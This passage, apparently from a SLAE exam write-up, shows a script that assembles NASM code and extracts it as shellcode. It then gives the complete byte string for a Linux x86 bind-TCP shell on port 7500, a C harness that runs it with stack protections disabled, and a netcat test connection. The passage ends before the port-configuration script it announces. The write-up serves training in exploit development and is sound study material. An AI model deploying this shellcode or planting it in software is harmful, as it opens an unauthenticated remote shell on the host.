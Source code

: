     echo "[+] Assembling with NASM..."
    nasm -f elf32 -o "${FILE_NO_EXT}.o" "$1"
    
    echo "[+] Linking..."
    if [ $(uname -m) == "x86_64" ]; then
    	ld  -m elf_i386 -o ${FILE_NO_EXT} ${FILE_NO_EXT}.o
    else
    	ld -o ${FILE_NO_EXT} ${FILE_NO_EXT}.o
    fi
    
    echo "[+] Shellcode:"
    for i in $(objdump -d ${FILE_NO_EXT} |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo


The output of the script is:

    
    "\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"


Before executing the shellcode the above result must be put inside the following C file.

    
    /* Template for running shellcode
     * Author: Paolo Stivanin <https://github.com/polslinux>
     * SLAE Student ID: 526
     */
    
    #include <stdio.h>
    #include <string.h>
    
    unsigned char shellcode[] = \
    "\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x52\x66\x68\x1d\x4c\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";
    
    int main(void){
    	printf("%zu\n", strlen(shellcode));
    	int (*ret)() = (int(*)())shellcode;
    	ret();
    	return 0;
    }


Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then run it with ./Shell_Bind_TCP.

To test the shellcode you just need to open a new terminal and type nc localhost 7500  and...you're in :-)

[![res_ass1]({{ site.baseurl }}/images/2014/04/res_ass1-1024x575.png)]({{ site.baseurl }}/images/2014/04/res_ass1.png)

The last point of this assignment ask to provide a way to easily configure the port number. To accomplish this request I developed this small script:
